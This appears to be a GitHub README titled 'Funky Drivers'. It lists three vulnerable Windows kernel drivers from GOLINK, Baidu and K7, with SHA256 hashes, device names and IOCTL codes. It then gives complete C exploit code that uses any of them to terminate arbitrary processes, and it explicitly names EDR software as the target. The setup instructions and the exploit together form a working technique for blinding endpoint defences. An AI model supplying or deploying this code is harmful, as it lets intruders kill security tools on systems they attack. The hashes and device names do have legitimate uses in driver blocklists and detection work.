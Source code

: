 # Funky Drivers

These drivers expose process termination APIs (e.g., `ZwTerminateProcess`) that can be used to terminate arbitrary processes (e.g., EDR process). 
Vulnerabilities reported to MITRE CVE program.

## Driver 1 - GOLINK Software `GoFly.sys`

```
SHA256: 2FDFDD13A0C548BB68C9D5AA8599A9265D4659DA3E237FE7A42AC6AC06B9A06A
DeviceName: \\.\GoFly
IOCTL: 0x12227A
```

## Driver 2 - Baidu Antivirus `BdApiUtil.sys`

```
SHA256: 32198295D2A2700B9895FFF999C2B233F9BEFB0BC175815EC4B71EE926B6EDFC
DeviceName: \\.\BdApiUtil
IOCTL: 0x800024B4
```

## Driver 3 - K7 Antivirus `K7RKScan.sys`

```
SHA256: 5C6CE55A85F5D4640BD1485A72D0812BC4F5188EE966C5FE334248A7175D9040
DeviceName: \\.\DosK7RKScnDrv
IOCTL: 0x222018
```

## Exploit code

Create kernel service using one of the drivers, then compile and run code with appropriate IOCTL / DeviceName

```C
#include <stdio.h>
#include <windows.h>

#define GETDAFUNK <IOCTL_HERE>

int main(void) {
  
	unsigned int pid;
	unsigned int res;
	DWORD lpBytesReturned = 0;

	HANDLE hDevice = CreateFileA("\\\\.\\<DeviceName here>", GENERIC_WRITE|GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  
	if(hDevice == INVALID_HANDLE_VALUE){
		printf("[!] Connection to the driver failed\n");
		return -1;
	}
  
	printf("[+] Connected to driver\n");
	printf("[i] PID please : \n");
	scanf("%u", &pid);

	res = DeviceIoControl(hDevice, GETDAFUNK, &pid, sizeof(pid), NULL, 0, &lpBytesReturned, NULL);

	if (!res) {
		printf("[!] Funky IOCTL failed\n");
    		CloseHandle(hDevice);
    		return -1;
	}
  
	printf("[+] Process with PID : %u killed\n", pid);
	CloseHandle(hDevice);
  
	return 0;
}

```

